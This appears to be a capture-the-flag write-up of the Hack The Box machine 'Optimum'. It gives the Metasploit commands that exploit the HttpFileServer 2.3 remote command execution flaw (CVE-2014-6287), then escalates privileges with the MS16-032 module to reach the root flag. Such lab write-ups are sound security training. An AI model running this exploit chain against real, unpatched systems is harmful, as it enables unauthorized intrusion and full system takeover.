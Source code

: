 ```yaml
---
layout: post
title: HTB - Optimum Writeup
date: 2019-03-10
image: '/images/posts/htb/optimum/optimum.jpg'
categories: ["writeups"]
tags: ["writeups", "optimum", "htb"]
---
```


* Box: Optimum
  - Difficulty: Easy
  - Points: 20
  - Release: 18 Mar 2017
  - IP: 10.10.10.8


### Initial Enumeration

#### 1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA optimum.nmap 10.10.10.8`

The nmap scan shows only port 80 is open and the detected software is an outdated HttpFileServer 2.3.

<img src="/images/posts/htb/optimum/optimum1.jpg">

Accessing the webpage, we see it looks to be a file server used to access/archive files over the network. Let's look more into the HttpFileServer 2.3 version and investigate possible exploits.

The first serach reveals that this particular version has a remote command execution vulnerability
(CVE-2014-6287). Which conveniently, has a metasploit module available.

[CVE-2014-6287](https://www.exploit-db.com/exploits/39161)

### Exploitation

#### 2. Metasploit Module

Load up metasploit and simply load up the exploit for this CVE:

`use exploit/windows/http/rejetto_hfs_exec`<br>
`set RHOSTS 10.10.10.8`<br>
`set LHOSTS 10.10.14.9`<br>
`run`<br>

A shell will appear and you can find the user flag in the Desktop directory of the user "kostas".
The file will be named "**user.txt.txt**"

<img src="/images/posts/htb/optimum/optimum2.jpg">

<img src="/images/posts/htb/optimum/optimum3.jpg">


### Privilege Escalation

Now we have to get the root flag. Since we have a meterpreter session open, we can use local_exploit_suggester and look for possible vulnerabilities.

Simply run:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION 1`<br>
`run`<br>

<img src="/images/posts/htb/optimum/optimum4.jpg">

We see 2 possible vulnerabilities. Trying the first doesn't work but this is because we are not in the admins group.
Trying the next one, logon_handle works for us.

`use windows/local/ms16_032_secondary_logon_handle_privesc`<br>
`set SESSION 1`<br>
`run`<br>

<img src="/images/posts/htb/optimum/optimum5.jpg">

The root flag is found at "C:\Users\Administrator\Desktop\root.txt"

<img src="/images/posts/htb/optimum/optimum6.jpg">
